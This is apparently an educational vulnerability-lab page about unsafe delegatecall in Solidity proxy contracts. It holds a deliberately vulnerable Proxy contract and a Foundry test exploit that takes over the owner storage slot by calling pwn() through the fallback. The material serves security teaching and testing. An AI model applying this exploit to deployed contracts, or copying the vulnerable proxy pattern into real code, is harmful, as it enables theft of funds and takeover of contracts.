

# Unsafe Delegatecall
[Delegatecall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Delegatecall.sol)  
**Name:** Unsafe Delegatecall Vulnerability

**Description:**  
The Proxy Contract Owner Manipulation Vulnerability is a flaw in the smart contract design that
allows an attacker to manipulate the owner of the Proxy contract, which is hardcoded as 0xdeadbeef.
The vulnerability arises due to the use of delegatecall in the fallback function of the Proxy contract.
delegatecall allows an attacker to invoke the pwn() function from the Delegate contract within the context of the Proxy contract, thereby changing the value of the owner state variable of the Proxy contract.
This allows a smart contract to dynamically load code from a different address at runtime.

**Scenario:**  
Proxy Contract is designed for helping users call logic contract
Proxy Contract's owner is hardcoded as 0xdeadbeef
Can you manipulate Proxy Contract's owner ?

**Mitigation:**  
To mitigate the Proxy Contract Owner Manipulation Vulnerability,
avoid using delegatecall unless it is explicitly required, and ensure that the delegatecall is used securely.
If the delegatecall is necessary for the contract's functionality, make sure to validate and
sanitize inputs to avoid unexpected behaviors.

**Proxy Contract:**  
```
contract Proxy {
    address public owner = address(0xdeadbeef); // slot0
    Delegate delegate;

    constructor(address _delegateAddress) public {
        delegate = Delegate(_delegateAddress);
    }

    fallback() external {
        (bool suc, ) = address(delegate).delegatecall(msg.data); // vulnerable
        require(suc, "Delegatecall failed");
    }
}
```
**How to Test:**

forge test --contracts src/test/Delegatecall.sol-vvvv  
```
// Test function for a scenario where delegatecall is used.
function testDelegatecall() public {
    // Initialize a new Delegate contract, which is the "logic contract".
    DelegateContract = new Delegate(); 
    // Initialize a new Proxy contract, passing the address of the Delegate contract to its constructor. This is the "proxy contract".
    proxy = new Proxy(address(DelegateContract)); 

    // Log Alice's address.
    console.log("Alice address", alice);
    // Log the owner of the Proxy contract.
    console.log("DelegationContract owner", proxy.owner());

    // Log the start of the operation to change the owner of the Proxy contract.
    console.log("Change DelegationContract owner to Alice...");
    // Set the message sender to Alice.
    vm.prank(alice);
    // Call the pwn function of the Delegate contract through a delegatecall. This is the exploit.
    address(proxy).call(abi.encodeWithSignature("pwn()")); 
    // Proxy.fallback() will delegatecall Delegate.pwn(), making Alice the owner of the Proxy contract.

    // Log the new owner of the Proxy contract.
    console.log("DelegationContract owner", proxy.owner());
    // Log the completion of the exploit.
    console.log(
        "Exploit completed, proxy contract storage has been manipulated"
    );
}

// The Delegate contract, which contains the code that can be called via delegatecall.
contract Delegate {
    // The owner of the contract.
    address public owner; // slot0

    // The pwn function, which sets the owner of the contract to the message sender.
    function pwn() public {
        owner = msg.sender;
    }
}
``` 
Red box: exploited successful, owner changed.
  
